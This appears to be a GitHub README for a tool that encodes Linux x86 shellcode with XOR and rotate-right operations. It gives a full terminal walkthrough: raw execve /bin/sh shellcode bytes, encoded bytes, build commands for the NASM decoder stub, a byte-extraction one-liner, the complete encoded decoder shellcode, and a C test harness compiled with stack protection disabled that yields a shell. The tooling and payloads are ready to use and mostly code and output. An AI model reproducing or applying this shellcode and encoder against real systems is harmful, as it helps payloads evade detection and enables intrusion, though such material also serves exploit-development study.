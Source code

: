# XOR-ROR-Enocder-Decoder
Rotate Right + XOR Encoder

The purpose if this Encoder is to encode a shellcode using XOR and rotate right operations.
Use the Encoder.py first and then Decoder.nasm

# Getting started:
root@kali:~# ./encoder.py
Encoded shellcode....

Len : 25
0x49,0xb1,0xf9,0xe5,0x46,0x46,0x68,0xe5,0xe5,0x46,0xe0,0x65,0xe6,0x15,0x20,0xf9,0x15,0xa0,0x78,0x15,0x21,0x89,0x54,0x37,0x91,


Shellcode for c....


\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

[+] The "Shellcode for c" is just a raw shellcode not encoded, in case if you want to test it first without encoding it.

[+] Copy and paste the encoded shellcode to decoder.nasm


root@kali:~# nasm -f elf32 -o shell.o shell.nasm

root@kali:~# ld -z execstack -o shell shell.o

root@kali:~# objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\xeb\x2d\x5e\x31\xdb\x31\xc0\x8a\x1e\x80\xf3\x99\x74\x26\x8a\x1e\x88\xd8\x84\xc0\x78\x09\xd0\xe0\x34\xa3\x88\x06\x46\xeb\xe4\x66\x0f\xba\xf0\x07\xd0\xe0\x04\x01\x34\xa3\x88\x06\x46\xeb\xd4\xe8\xce\xff\xff\xff\x49\xb1\xf9\xe5\x46\x46\x68\xe5\xe5\x46\xe0\x65\xe6\x15\x20\xf9\x15\xa0\x78\x15\x21\x89\x54\x37\x91\x99"

[+] We copy the output shellcode to the c file shell-code.c

root@kali:~# gcc -fno-stack-protector -z execstack shell-code.c -o shell-code
root@kali:~# ./shell-code
Shellcode Length: 79
#

We got a shell NICE ! :-)
